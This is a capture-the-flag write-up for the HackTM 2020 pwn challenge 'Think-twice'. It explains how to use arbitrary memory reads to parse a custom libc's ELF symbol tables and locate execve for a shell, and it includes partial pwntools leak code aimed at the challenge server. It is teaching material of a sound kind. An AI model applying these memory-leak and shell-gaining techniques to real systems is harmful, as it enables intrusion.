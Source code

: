 	---
title: Think-twice - HackTM 2020
date: 2020-02-04 13:00:00
categories:
  - Pwn 
  - linux
  - ELF
tags:
  - CTF
  - writeup
  - Pwn
---

Linux userpace exploitation by parsing ELF for symbol addresses with arbitary read

**Challenge points**: 491
**No. of solves**: 14
**Solved by** : @sherl0ck, @slashb4sh

The challenge program is rather simple. You get infinite number of arbitary reads, and one arbitary write. The libc is not given and the path of the loader is specified as `./loader.so`, hinting that a custom libc and loader is used. This is confirmed as no libc version matches are found on [libc database search](https://libc.blukat.me/) with the leaks obtained from the server. 
A custom libc and loader means that we **cannot** get a shell by calling `system`. This is because the custom loader crashes when trying to load the libc of sh binary as the path to libc is specified as `/lib/x86_64-linux-gnu/libc.so.6` in the environmental variables. We have to call `execve` with 2nd and 3rd argument as `execve`.
With n number of arbitary reads we can actually parse symbol tables in the ELF structure of the libc to obtain the address of any function we want. This technique is explained with sample code in this [blogpost](https://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html). Using the sample code with some modifications we can obtain the address of any symbol like `system` or `execve`. Note that this step has to be done only once, we obtain the offset from the base then hardcode it in the final exploit.

Code for finding symbol address :
```python
from pwn import *

s=remote("138.68.67.161", 20004)

def findLibcBase(ptr):
   ptr &= 0xfffffffffffff000
   ptr = ptr-(0x69000) # offset found after running from 0
   while (leak(ptr, 4)) != "\x7fELF":
	ptr = ptr - 0x1000
   return ptr


wordSz = 8
hwordSz = 4
bits = 64
PIE = 0

def leak(addr,size=8):
	s.sendlineafter(" >",str(1))
	s.sendlineafter(" [#] Enter Where: ",str(addr))
	s.recvline()
	val = s.recv(size)
	return val

def findPhdr(addr):
   if bits == 32:
      e_phoff = u32(leak(addr + 0x1c, wordSz).ljust(4, '\0'))
   else:
      e_phoff = u64(leak(addr + 0x20, wordSz).ljust(8, '\0'))
```
